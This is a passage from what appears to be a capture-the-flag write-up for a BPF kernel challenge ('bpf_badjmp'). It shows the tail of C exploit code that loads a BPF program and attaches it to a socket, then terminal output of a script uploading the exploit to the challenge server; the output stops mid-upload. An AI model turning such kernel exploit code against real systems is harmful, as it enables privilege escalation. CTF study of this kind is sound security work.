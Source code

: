 ``` c
		if (errno == EACCES)
		{
			msg("log:\n%s", bpf_log_buf);
		}
		printf("%s\n", bpf_log_buf);
		fail("failed to load prog '%s'\n", strerror(errno));
	}
	printf("loaded\n");

	if (socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))
	{
		fail("failed to create socket pair '%s'\n", strerror(errno));
	}

	if (setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)
	{
		fail("setsockopt '%s'\n", strerror(errno));
	}

	write_msg(sockets[0]);
	printf("Done\n");
	key = 0;
	bpf_lookup_elem(_mapfd[0], &key, &buf);
	printf("res: %s\n", buf);
}
```
Run to remote server using script, and get the flag.
```bash
➜  bpf_badjmp git:(master) ✗ ./build.sh
➜  bpf_badjmp git:(master) ✗ python3 send.py
[+] Opening connection to bpf-badjmp.chal.uiuc.tf on port 1337: Done
[*] touch /tmp/a.gz.b64
[*] Sending chunk 0/35
[*] Sending chunk 1/35
[*] Sending chunk 2/35
[*] Sending chunk 3/35
[*] Sending chunk 4/35
[*] Sending chunk 5/35
[*] Sending chunk 6/35
[*] Sending chunk 7/35
[*] Sending chunk 8/35
[*] Sending chunk 9/35
[*] Sending chunk 10/35
[*] Sending chunk 11/35
[*] Sending chunk 12/35
[*] Sending chunk 13/35
[*] Sending chunk 14/35
[*] Sending chunk 15/35
[*] Sending chunk 16/35
[*] Sending chunk 17/35
[*] Sending chunk 18/35
[*] Sending chunk 19/35
[*] Sending chunk 20/35
[*] Sending chunk 21/35
[*] Sending chunk 22/35
[*] Sending chunk 23/35
[*] Sending chunk 24/35
[*] Sending chunk 25/35
[*] Sending chunk 26/35
[*] Sending chunk 27/35
[*] Sending chunk 28/35
[*] Sending chunk 29/35
[*] Sending chunk 30/35
```